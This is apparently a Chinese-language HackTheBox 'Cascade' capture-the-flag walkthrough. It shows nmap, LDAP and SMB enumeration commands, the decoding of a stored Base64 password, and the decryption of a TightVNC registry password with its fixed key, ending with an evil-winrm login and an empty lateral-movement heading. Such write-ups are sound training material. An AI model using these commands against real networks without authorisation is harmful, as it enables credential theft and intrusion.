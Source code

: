 ```yaml
---
title: "HTB Cascade"
date: 2024-04-20T00:42:39+08:00
description: HackTheBox Cascade Walkthrough
math: false
tags: [
    "Windows",
    "Active Directory",
    "LDAP",
    "Kerberos",
    "SMB",
    ".NET",
    "Reverse Engineering",
    "TightVNC",
]
categories: [
    "HackTheBox"
]
draft: true
description: 'HackTheBox Cascade Walkthrough'
---
```


[![20240421144458](https://raw.githubusercontent.com/iselt/ImageBed/main/20240421144458.png)](https://app.hackthebox.com/machines/235)

## nmap 枚举

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.182
```

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-18 09:02:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

389, 636, 3268, 3269 端口是 LDAP 端口，这台主机大概率是一台域控主机。且通过 nmap 默认脚本可知域名为 cascade.local

## 尝试 smb 枚举

优先查看smb匿名登录权限

匿名登录smb，查看共享文件夹（Sharename）

```bash
smbclient -L 10.10.10.182
```

```txt
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

无法获取信息

## LDAP 枚举

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>

```bash
# 简单的LDAP枚举
nmap -p 389 --script ldap-rootdse 10.10.10.182
```

```txt
...
dnsHostName: CASC-DC1.cascade.local
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
...
```

通过 [`windapsearch`](https://github.com/ropnop/go-windapsearch) 输出LDAP的所有属性

```bash
# 输出所有用户属性
./windapsearch --dc 10.10.10.182 --full -m users
```

```txt
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
...
```

用户描述字段中似乎没有任何密码，因此我们可以开始检查其他用户属性。用户 r.thompson 的一个属性叫做 cascadeLegacyPwd ，其中包含一个 Base64 编码字符串。解码之后使用 kerbrute 测试，发现就是他的密码。

```bash
kerbrute passwordspray --dc 10.10.10.182 -d cascade.local r.thompson rY4n5eva
```

## 利用 r.thompson 的账户凭证

- 尝试powershell remoting，但是失败

```bash
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```

- 登录 smb

```bash
# 查看共享权限
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

```txt
[+] IP: 10.10.10.182:445   Status: Authenticated
        Disk               Permissions     Comment
        ----               -----------     -------
        ADMIN$             NO ACCESS       Remote Admin
        Audit$             NO ACCESS
        C$                 NO ACCESS       Default share
        Data               READ ONLY
        IPC$               NO ACCESS       Remote IPC
        NETLOGON           READ ONLY       Logon server share
        print$             READ ONLY       Printer Drivers
        SYSVOL             READ ONLY       Logon server share
```

```bash
# 登录
smbclient \\\\10.10.10.182\\Data -U r.thompson
```

```txt
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
```

查看下载的html文件

```bash
cat Meeting_Notes_June_2018.html
```

```html
...
We will be using a temporary account to perform all tasks related to the network
migration and this account will be deleted at the end of 2018 once the migration
is complete. This will allow us to identify actions related to the migration in
security logs etc. Username is TempAdmin (password is the same as the normal
admin account password).
...
```

获得信息：TempAdmin账户的密码与默认管理员账户的密码相同

下载其他敏感文件

```txt
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
```

ArkAdRecycleBin.log 包含了一个名为 ARK AD RECYCLE BIN MANAGER 的程序的文本日志。

```bash
cat ArkAdRecycleBin.log
```

```txt
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

日志告诉我们程序正在 ArkSvc 的上下文中运行，并且 TempAdmin 账户已被移动到回收站。

最后，Temp 包含了用户 r.thompson 和 s.smith 的文件夹。在 s.smith 的文件夹中可以找到 VNC Install.reg 文件。这似乎是 TightVNC 的注册表设置备份，一个桌面远程控制程序。

```txt
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```

```bash
cat "VNC Install.reg"
```

```txt
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

## TightVNC 注册表密码解密

<https://github.com/frizb/PasswordDecrypts>

```bash
$> msfconsole

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
 => "sT333ve2"
```

获得 s.smith 的 TightVNC 密码：sT333ve2

## Get Shell

使用 `windapsearch` 可以 `s.smith` 账户具有远程管理的 `CN`

因此可以使用 `evil-winrm` 登录

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

在 `C:\Users\s.smith\Desktop` 下找到 `user.txt`

## Lateral Movement

## 横向移动
